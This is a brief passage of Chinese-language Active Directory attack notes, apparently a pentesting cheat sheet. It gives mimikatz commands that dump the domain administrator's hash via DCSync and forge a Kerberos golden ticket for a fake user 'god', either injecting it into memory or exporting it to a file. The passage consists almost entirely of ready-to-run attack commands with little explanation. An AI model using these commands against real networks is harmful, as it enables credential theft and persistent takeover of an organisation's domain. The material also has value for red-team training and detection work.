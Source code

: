导出域内 administrator 帐户的 hash：

```cmd
mimikatz.exe "lsadump::dcsync /domain:test.com /user:administrator /csv" exit
```

**生成黄金票据：**

```cmd
# 导入内存
mimikatz "kerberos::golden /domain:hack.site /sid:S-1-5-21-313574889-3468111967-1448950884 /rc4:b031478fac90b1d71e916df3c11cf2d3 /user:god /ptt" "exit"
# 导出导入
mimikatz "kerberos::golden /domain:hack.site /sid:S-1-5-21-313574889-3468111967-1448950884 /rc4:b031478fac90b1d71e916df3c11cf2d3 /user:god /ticket:golden.kirbi" "exit"
mimikatz.exe "kerberos::ptt 文件路径" 
```

![](/assets/images/move/2020-07-05-22-09-12.png)

验证成功：
